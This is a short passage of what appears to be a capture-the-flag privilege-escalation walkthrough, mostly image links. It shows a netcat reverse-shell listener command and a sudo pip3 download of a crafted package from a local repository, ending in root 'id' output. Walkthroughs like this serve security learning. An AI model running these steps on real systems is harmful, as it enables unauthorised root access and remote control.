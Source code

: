 ![[Pasted image 20230904224141.png]]

The repository is now publicly accessible :

![[Pasted image 20230904224227.png]]

Start a reverse shell listener :
rlwrap nc -vnlp 9001

And execute the sudo command to gain elevated privileges :
sudo pip3 download http://127.0.0.1:3000/john/Test/raw/master/mytest-0.0.1.tar.gz

```shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
